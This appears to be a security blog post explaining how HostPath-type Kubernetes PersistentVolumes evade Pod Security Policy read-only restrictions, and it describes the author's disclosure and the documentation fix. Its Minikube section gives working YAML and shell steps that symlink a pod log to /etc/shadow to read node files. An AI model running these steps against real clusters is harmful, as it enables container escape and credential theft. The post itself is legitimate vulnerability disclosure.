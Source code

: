 ```yaml
---
layout: post
title:  "Dangers of HostPath PersistentVolumes"
date:   2020-03-05 20:12:50 -0800
categories: containers
---
```


## Intro

In this post we'll talk about some dangers that arise
when using a specific type of Kubernetes storage object, 
which cannot be secured by operators and can result in
Pod escapes.

## Background

In Kubernetes, a `PersistentVolume` object is an API
object that represents a Volume (some kind of mount),
which can make it easier for operators to keep track
of the Volume. A "share" of a `PersistentVolume` can
be claimed by a Pod via a `PersistentVolumeClaim` object:

| ![pvdocs](/assets/images/pvdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#introduction> |


To actually use a Volume defined by a `PersistentVolume` object,
a Pod's spec references an associated `PersistentVolumeClaim` in
its namespace:

| ![pvcdocs](/assets/images/pvcdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#claims-as-volumes> |


A `PersistentVolume` object can define the [same types](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#types-of-persistent-volumes) of Volumes commonly defined
inline within a Pod's YAML spec, such as `HostPath`.

## Problem Statement

Trail of Bits noted in their Kubernetes audit that `HostPath` type `PersistentVolume`
objects *are not* checked against the [`hostPath`-relevant directives](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems) in a user's Pod Security Policy (PSP):

| ![tobpvbug](/assets/images/tobpvbug.png) | 
|:--:| 
| <https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf> |

Their exploit scenario involved an attacker who, as per their PSP, was *unable* to use `hostPath`
Volumes, but was allowed to create Pods, `PersistentVolume` objects, and `PersistentVolumeClaim` objects.
In this case, the attacker can create a `HostPath` type `PersistentVolume` specifying a mount at the Node's home
directory, and reference that in a subsequent `PersistentVolumeClaim` and Pod reference, thus achieving Pod that
can access the Node's home directory, despite the PSP that is in place.

Kubernetes reponded in turn and added the following language to the documentation:

| ![pvorigwarning](/assets/images/pvorigwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/15756> |

However, **there is an additional angle to build on here**. 

It is known that writable `hostPath` Volumes are insecure, and Aqua has a [fantastic writeup](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) on *one such* example of why this is the case. In Aqua's writeup, they
demonstrate how a Pod that receives a writable `hostPath` Volume of `/var/log` can access *any* files on the Node's
filesystem. You should read the writeup, but this occurs because said Pod can overwrite its (or any other Pod's) `0.log` logfile with a symlink to e.g. `/etc/shadow`, and this symlink is followed by the Node upon any `kubectl logs PODNAME` invocation for the Pod whose logfile has been poisoned!

This is somewhat of a contrived example, but Kubernetes is weary of such trickery, and so they have declared any writeable `hostPath` Volume insecure:

| ![pvorigwarning](/assets/images/readfswarning.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems> |

But note their prescribed fix in the figure above: use the `readOnly: true` sub-directive within the
`allowedHostPaths` directive in a user's PSP in order to make `hostPath` Volumes read-only, and thus safe.
But wait! As we discussed earlier, those directives are not checked for `HostPath` type `PersistentVolume`
objects! And while `PersistentVolume` objects have an `accessModes` directive, support for individual access
modes is determined by the implementation of the underlying storage, and a read-only `accessMode` is not supported for `HostPath` type `PersistentVolumes`:

| ![pvorigwarning](/assets/images/pvaccessmodesupport.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#persistent-volumes> |

**Exploit Scenario:**

An operator wishes to provide a read-only copy of the Node's `/var/log`, such that a Pod can view other Pods'
logs, and they choose to represent this as a `HostPath` type `PersistentVolume`.

* The operator reads the aforementioned warning in the PSP documentation, and thus sets `readOnly: true` in `allowedHostPaths` for the `PersistentVolume`, assuming this makes the mount read-only, [as it does for inline `hostPath` Volumes](https://github.com/kubernetes/kubernetes/pull/58647).

* Since the Pod can actually write to `/var/log`, the Pod receiving this Volume mount can follow the steps in Aqua's writeup. By writing a symlink to a Pod's logfile, they can read *any* file off of the Node's filesystem, not just what is in `/var/log/`.

**Minikube Example**

Here are some example Kubernetes objects and steps that can be used to reproduce the
exploit scenario above:

* Reads the docs, and sets `readOnly: true` in a PSP for `hostPath`
Volumes, in order to prevent attacks surrounding writing and symlinks;
the operator wants a Pod with read-only access to other Pods' logs.

~~~
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
   name: psp-restricted
spec:
   allowPrivilegeEscalation: false
   allowedHostPaths:
   - pathPrefix: /var/log
     readOnly: true
   fsGroup:
     rule: RunAsAny
   requiredDropCapabilities:
   - ALL
   runAsUser:
     rule: RunAsAny
   seLinux:
     rule: RunAsAny
   supplementalGroups:
     rule: RunAsAny
   volumes:
   - configMap
   - persistentVolumeClaim
   - emptyDir
   - secret
   - projected
   - nfs
~~~

* Creates a `PersistentVolume` of type `HostPath`, which allows a Pod to
access `/var/log`, under the assumption it is read-only via the PSP
directive

~~~
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"

apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
~~~

* But a Pod can still write a symlink to its `0.log` file, which is
followed by the Node upon `kubectl logs PODNAME` in order to read *any* file from the Node

~~~
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
            name: task-pv-storage-vol
~~~

~~~
kubectl exec -it task-pv-pod -n default /bin/bash
~~~

~~~
cd /hostlogs/pods/default_task-pv-pod_c9030cba-f67b-4564-8bbc-531d87e63920/task-pv-container/
~~~

~~~
rm 0.log
~~~

~~~
ln -s /etc/shadow 0.log
~~~

~~~
kubectl logs task-pv-pod -n default
failed to get parse function: unsupported log format:
"root:*:15887:0:::::\n"
~~~


## Fix?

At this point, we've seen why **any `HostPath` type `PersistentVolume` object should
be considered suspect because they cannot be made read-only**. While the `/var/log` example
is the only one I know of, there might be more, which is why the documentation warns about
writable `hostPath` Volumes in the first place.

I reported this behavior to Kubernetes, and, to address this, 
Kubernetes is doing two things:

* Updating the documentation's language to state that `HostPath` type `PersistentVolume` objects
cannot be made read-only, which, as we know, is insecure by design

| ![newdocwarning](/assets/images/newdocwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/19504/> |

* [Requesting](https://github.com/kubernetes/kubernetes/issues/88880) a feature for read-only `HostPath` type `PersistentVolume` objects